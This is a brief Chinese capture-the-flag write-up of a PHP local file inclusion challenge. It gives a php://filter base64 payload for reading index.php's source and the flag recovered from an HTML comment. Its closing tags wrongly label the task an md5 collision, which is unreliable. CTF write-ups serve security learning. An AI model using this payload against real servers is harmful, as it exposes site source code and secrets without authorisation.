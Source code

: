 ## 题目

> ### php LFI
>
> http://4.chinalover.sinaapp.com/web7/index.php?file=show.php

## 解答思路

- 由于注释在php解析成html之后会被删除，所以，flag可能会被藏在此处
- 使用base64编码的方式将index.php读取出来


## 解题步骤

1. 提交参数：

   ```php
   ?file=php://filter//read=convert.base64-encode/resource=index.php
   ```
2. 得到返回结果，在注释中找到
   > flag:nctf{edulcni_elif_lacol_si_siht}

## 漏洞挖掘思路

- 无

## 自动化解析

- TODO

- 判断题目特征：`web` `php` `md5 collision`
- 设定题目难度等级`level`为simple
- 提交相应符合要求的字符串

